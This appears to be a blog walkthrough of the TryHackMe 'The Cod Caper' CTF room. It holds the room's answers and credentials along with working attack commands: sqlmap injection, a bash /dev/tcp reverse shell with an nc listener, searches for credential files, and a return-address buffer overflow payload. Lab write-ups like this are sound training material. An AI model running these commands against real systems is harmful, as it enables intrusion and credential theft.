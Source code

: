 ```yaml
---
layout: blog
title: TryHackMe The Cod Caper Writeup
publishDate: 2023-12-04T16:42:00.000Z
description: Walk-through and answers of TryHackMe CTF room - The Cod Caper.
tags:
  - tryhackme
  - writeup
---
```

## Task 2: Host Enumeration

Scan the network with nmap using proper techniques to get the answers.

```sh
nmap -sV -A -vv -oN thecodcaper.nmap -T4 --min-rate=10000 TARGET_IP
```

| Flag | Use               |
| ---- | ----------------- |
| sV   | version detection |
| A    | scan everything   |
| vv   | more verbose      |
| oN   | output file       |
| T4   | for faster scan   |

* Open ports: 2 (22 and 80)
* http-title: Apache2 Ubuntu Default Page: It works
* ssh service version: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
* Web server version: Apache/2.4.18

## Task 3: Web Enumeration

Scan for the directories using Gobuster.

> Note: Use the `seclists/Discovery/Web-Content/big.txt` wordlist

```sh
gobuster dir -u http://TARGET_IP/ -x php,txt,html -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o thecodcaper.gobuster
```

| Flag | Use                     |
| ---- | ----------------------- |
| u    | URL                     |
| x    | File type: txt,html,php |
| w    | wordlist                |
| o    | output                  |

* Important file on the server: /administrator.php

## Task 4: Web Exploitation

On visiting the /administrator.php page, some kind of a login form could be found. The username and password can be found using SQL injection.

```sh
sqlmap --dump --forms -u http://TARGET_IP/administrator.php
```

| Flag  | Use                                |
| ----- | ---------------------------------- |
| dump  | Prints the output of the injection |
| forms | targets html forms                 |
| u     | URL                                |

![](/images/uploads/pasted-image-20231204172051.png)

Running the same command without `--dump` flag will reveal the number of vulnerable forms:

![](/images/uploads/pasted-image-20231204172253.png)

* Admin username: pingudad
* Admin password: secretpass
* Number of vulnerable forms: 3

## Task 5: Command Execution

Login to the administrator.

Run `ls` to find the number of forms.

To check if pingu has the account or not, check the output of the `/etc/passwd`.

Since we are able to run any linux command, it is better to use a reverse shell.

Start a netcat listening server:

```sh
nc -nlvp 4444
```

Execute the reverse shell:

```sh
bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/4444 <&1'
```

The ssh password should be saved in the `/etc/shadow` file, but you would not have superuser privileges to access its contents. But, backups stored in other places might not need sudo. Use the `find` command to search for files:

```sh
find / -type f -name "shadow*"
```

Command breakdown:

* `/` - look for files in the root directory
* `-type f` - look for files only
* `-name "shadow*"` - filename containing "shadow"

You'll find a backup stored in `/var/backups/shadow.bak` but its not accessible as well. So look for files containing the word "pass".

```sh
find / -type f -name "pass*"
```

The ssh password should be found in the file `/var/hidden/pass`

* SSH password: pinguapingu

## Task 6: LinEnum

Download LinEnum on your computer from GitHub. Then use `scp` to send the file to the target machine through ssh.

```sh
scp /opt/LinEnum.sh pingu@TARGET_IP/tmp
```

Login using the credentials gathered from previous task.

After the command is successfully executed, login to the target with ssh and execute the LinEnum.sh script.

```sh
cd /tmp && ./LinEnum.sh
```

![](/images/uploads/pasted-image-20231207183828.png)

* Secret file: /opt/secret/root

## Task 10: Finishing the job

The previous tasks are just read-only. All you need to do is find out the root hash using binary exploitation. Run this command and you'll get the root hash:

```sh
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

![](/images/uploads/pasted-image-20231207185904.png)

This is a sha512crypt hash. Use hashcat to crack the password. It might take some time.

* Root password: love2fish
